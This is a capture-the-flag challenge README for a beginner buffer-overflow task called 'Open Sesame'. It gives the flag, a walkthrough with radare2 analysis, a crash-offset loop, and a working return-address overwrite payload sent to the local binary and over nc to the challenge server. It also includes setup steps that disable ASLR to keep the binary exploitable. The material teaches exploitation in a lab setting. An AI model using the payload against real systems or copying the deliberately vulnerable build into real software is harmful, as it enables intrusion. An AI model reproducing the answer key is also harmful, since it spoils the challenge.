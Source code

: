 # Open_Sesame

**Author:** Raed Fayad / raed_f (discord)

**Category:** PWN

## Description

Open Sesame is a beginner-level PWN challenge that teaches classic stack-based buffer overflow. Players reverse a 32-bit Linux binary where input is read using gets(), allowing them to overwrite the return address and jump to a hidden print_access_logs() function. It's ideal as a first PWN task, with mitigations like stack canaries and PIE disabled. The challenge should be hosted via socat, and the binary provided to the players.

### Files

- [door_access](release_files/door_access) - The binary to exploit

### Host

```sh
$ nc <server_ip> 1337
```

## Part 1

**CTFd name:** Open Sesame

### CTFd Description

Your mission is to enter a locked ballot-counting room. Without a key card of your own, you must find another key card to open the door and get inside. Luckily, the admin interface of the door access system is accessible from the facility's network. Can you trick the system into giving you some recent key card access logs?

The flag is the UUID of the key card that was most recently granted access to the ballot-counting room.

Free hint - the door access system is a simple program that was compiled for Linux i386 architecture.

### Depends on

None

### Flag

<details>
<summary>(expand to read)</summary><br>

1a2b3c4d-5e6f-7a8b-9c0d-1e2f3a4b5c6e

</details>

### Walkthrough

<details>
<summary>(expand to read)</summary><br>

Use the radare2 image (or [install radare2 locally](https://rada.re/n/radare2.html)) to analyze the binary and find the location of the interesting functions, like `print_access_logs`:

```sh
$ docker run --tty --interactive --privileged --cap-add=SYS_PTRACE --security-opt seccomp=unconfined --security-opt apparmor=unconfined -v .:/server_files radare/radare2
r2@17ae27db2f9b:~$ cd /server_files/
r2@17ae27db2f9b:/server_files$ r2 door_access
[0x080490d0]> aaa
...
[0x080490d0]> afl
...
0x080491f6    3    142 sym.print_access_logs
...
[0x080490d0]> exit
```

Grab the address of the print_access_logs function convert it to little endian format, for example: `0x 08 04 91 f6` becomes `0x f6 91 04 08`, and then convert it to the hex format `b"\xf6\x91\x04\x08"`.

Then, you will need to find the offset of the return address in the stack. You can do this by writing a simple bash script that generates a payload of `A`s until the program crashes:

```bash
for i in $(seq 1 60); do
  python3 -c "print('A'*$i)" | ./door_access > /dev/null
  echo "Tried $i bytes"
done
```

Once you get a segfault, you know roughly the input size that caused it. This helps you approximate the overflow point. In this case, the program crashes when you enter 44 `A`s, you can then try an offset of 44 bytes, and then increase it by incrementes of 4 bytes until you find the exact offset.

The offset is 48 bytes, so you will need to enter 48 `A`s followed by the address of the print_access_logs function.

Then, if you are using an ubuntu amd64 machine or VM, use the following command to generate the payload and pipe it to the binary locally to test it (when testing locally, you won't be able to see the flag, but you will see a helpful error message if the exploit worked):

```sh
$ python3 -c 'import sys; sys.stdout.buffer.write(b"A"*48 + b"\xf6\x91\x04\x08")' | ./door_access
...
Almost there! Enter the same passcode on this challenge's server to reveal the logs.

```

Otherwise, if you are using a different architecture, or if you want to skip the local test, you can send the payload directly to the open_sesame challenge server:

```sh
$ python3 -c 'import sys; sys.stdout.buffer.write(b"A"*48 + b"\xf6\x91\x04\x08")' | nc < server_ip > < server_port >
Welcome to the Remote Door Access System!
The passcode that you have entered is being confirmed...
Access Denied! Try again.

Here are the most recent physical key card access logs:
2025-06-14 07:12:34 | CardID: 7e3f2c8e-1b2a-4c5d-9f6e-8a7b6c5d4e3f | Access: Granted | Door: Ballot Counting Room
2025-06-14 09:01:55 | CardID: 9f8e7d6c-5b4a-3c2d-1e0f-9a8b7c6d5e4f | Access: Granted | Door: Ballot Counting Room
2025-06-14 09:15:22 | CardID: 7e3f2c8e-1b2a-4c5d-9f6e-8a7b6c5d4e3f | Access: Granted | Door: Ballot Counting Room
2025-06-14 10:00:15 | CardID: 3e2f1c4d-5b6a-7c8d-9e0f-1a2b3c4d5e6f | Access: Denied  | Door: Ballot Counting Room
2025-06-14 10:13:12 | CardID: 1a2b3c4d-5e6f-7a8b-9c0d-1e2f3a4b5c6e | Access: Granted | Door: Ballot Counting Room
2025-06-14 11:42:11 | CardID: 2b3c4d5e-6f7a-8b9c-0d1e-2f3a4b5c6d7e | Access: Denied  | Door: Ballot Counting Room

Segmentation fault (core dumped)
```

The flag is `1a2b3c4d-5e6f-7a8b-9c0d-1e2f3a4b5c6e`.

</details>

## Setup instructions

### How to generate a new door_access binary file

1. Set up an ubuntu server with amd64 architecture (without any virtualization of architecture, meaning that the host machine must be amd64).
2. Install the required packages:

```sh
$ dpkg --add-architecture i386 && apt update && apt install -y gcc libc6-dev socat libc6:i386 gcc-multilib
```

2.1 Install [docker](https://docs.docker.com/engine/install/ubuntu/#install-using-the-convenience-script), and [docker-compose](https://www.digitalocean.com/community/tutorials/how-to-install-docker-compose-on-ubuntu-18-04#step-1-installing-docker-compose).

2.2 Disable ASLR (Address space layout randomization)

```sh
$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

3. Copy the [server_files](/challenges/jeopardy/pwn/open_sesame/server_files) directory to the server. If the files are already in the server, make sure to remove the existing files before running the following:

```sh
$ scp -r < path-to-repo >/CS2025-NTL/challenges/jeopardy/pwn/open_sesame/server_files < user >@< server_ip >:~
# for example scp -r /Users/raedfayad/git/personal/CS2025-NTL/challenges/jeopardy/pwn/open_sesame/server_files vpcadmin@10.0.2.31:~
```

4. On the server, navigate to the directory where you copied the files, and build the binary:

```sh
$ cd ~/server_files
$ make build
```

5. Run the binary on the server to test it runs (just a sanity check):

```sh
$ cd ~/server_files
$ ./door_access
```

6. Go through the [service depoloyment](#service-deployment) so you are ready to test this binary.

7. On your machine, copy the generated binary from the server to your local machine, and provide it to the challenge participants:

```sh
$ scp < user >@< server_ip >:~/server_files/door_access < path-to-repo >/CS2025-NTL/challenges/jeopardy/pwn/open_sesame/server_files
# for example scp vpcadmin@10.0.2.31:~/pwn-challenge/door_access /Users/raedfayad/git/personal/CS2025-NTL/challenges/jeopardy/pwn/open_sesame/server_files
```

8. Go through the [challenge walkthrough](#walkthrough) to make sure the flag is still reachable.

### Service Deployment

1. On the ubuntu amd64 server, navigate to the directory where you copied the files, and run the docker image:

```sh
$ cd ~/server_files
$ make run
```

If you encounter issues, the service might be already running, so you can stop it first:

```sh
$ make stop
```
